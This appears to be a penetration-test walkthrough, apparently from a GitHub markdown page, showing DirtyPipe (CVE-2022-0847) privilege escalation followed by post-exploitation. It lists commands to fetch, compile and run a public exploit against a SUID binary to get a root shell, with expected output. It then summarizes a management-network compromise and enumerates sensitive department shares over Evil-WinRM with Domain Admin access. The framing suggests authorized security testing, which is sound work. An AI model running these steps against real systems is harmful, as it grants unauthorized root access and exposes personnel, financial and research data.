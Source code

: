 ## 🔺 DirtyPipe Privilege Escalation

### 💥 CVE-2022-0847 Exploitation
```bash
# Exploit acquisition
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cat exploit-2.c  # Copy exploit code

# Target system compilation
vim exploit.c  # Paste exploit code
gcc exploit.c -o dirtypipe
chmod +x dirtypipe

# SUID binary exploitation
./dirtypipe /usr/lib/openssh/ssh-keysign

# Expected output:
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# Root access verification:
# id
uid=0(root) gid=0(root) groups=0(root),1001(ssmallsadm)
```

### 🏆 Management Network Compromise
```cmd
# Achievement summary:
- Protected network access achieved
- Management server root compromise
- "Crown jewels" server access demonstrated
- Complete network segmentation bypass

# Impact demonstration:
- Access to sensitive management infrastructure
- Potential for additional network discovery
- Complete enterprise environment compromise
```

## 🎯 Additional Value-Add Activities

### 💰 Sensitive Data Discovery
```bash
# File share enumeration with Domain Admin access
*Evil-WinRM* PS C:\> cd "C:\Department Shares"
*Evil-WinRM* PS C:\Department Shares> dir

# High-value targets:
Accounting/     # Financial data access
Executives/     # Executive communications  
Finance/        # Budget and financial planning
HR/            # Employee personal information
R&D/           # Intellectual property and research

# Evidence collection:
- Screenshot file listings (do not open individual files)
- Document access capabilities
- Assess data classification requirements
```
